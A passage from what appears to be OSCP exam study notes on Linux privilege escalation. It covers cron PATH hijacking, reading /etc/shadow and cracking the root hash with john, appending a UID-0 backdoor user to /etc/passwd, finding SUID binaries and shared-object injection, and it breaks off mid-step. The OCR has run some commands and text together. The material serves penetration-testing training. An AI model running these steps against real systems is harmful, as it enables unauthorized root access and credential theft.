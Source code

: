 ### PATH Environment Variable[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#path-environment-variable)
The crontab PATH environment variable is by default set to /usr/bin:/binThe PATH variable can be overwritten in the crontab file.If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.**Steps to check -**1. First print $PATH variable to see if we can manipulate it according to our need$ echo $PATH​/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games2. Adding our own path to $PATH where we can write our own malicious binary , in this example **/tmp** directoryexport PATH=/tmp:$PATHit will add **/tmp** in front of **PATH variable** so now when cron job run , it will start looking for that particular binary through $PATH variable and since we put our own path in starting , it will first look for that file in that directory so we ned to put our own malicious binary with same name in our directory 3. Put your malicious binary in directory which you added to $PATHcd /tmp​echo "/bin/bash" > <binary>​chmod +x <binary>
## /etc/shadow[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#etc-shadow)
1.** If you are able to read this file , **head -n 1 /etc/shadow1. Extract the root user's password 2. Save the password hash in a file echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl XvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'3. Crack the password hash using john john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.t xt hash.txt**2. If you have writable permission ,****1. **Generate a new **SHA-512** password hash -mkpasswd -m sha-512 newpassword2. Edit the /etc/shadow and replace the root user’s password hash with the one we generated.

### /etc/passwd[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#etc-passwd)

  If you have writable permission 
  https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow
openssl passwd -1 "password" #MD5
openssl passwd -6 "password" # SHA512  
  
  1. Generate a password using **openssl** => openssl passwd -1 "password"
  2. Edit the /etc/passwd file and enter the hash in the second field of the root user row in the place of 'x'
  3. 3. Or you can do it append a new row to it to create **an alternate root user** echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd

## SUID - SGID[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#suid-sgid)

### Finding SUID and SGID[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#finding-suid-and-sgid)
find / -perm -4000 2>/dev/null# Print all suid​find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null# Print both SUID and SGIDIf you get any unusual binary set with SUID or SGID bit , always check on [https://gtfobins.github.io/](https://gtfobins.github.io/) to get exploitation steps to achieve root
### Shared Object Injection[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#shared-object-injection)
When a program is executed, it will try to load the shared objects it requires.By using a program called **strace**, we can track these system calls and **determine whether any shared objects were not found.**If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.**Exploitation -****1. **Find SUID/SGID files on the target:$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null ... -rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so ...The **suid-so** file should execute with root user permissions.2. Run 
```
strace
```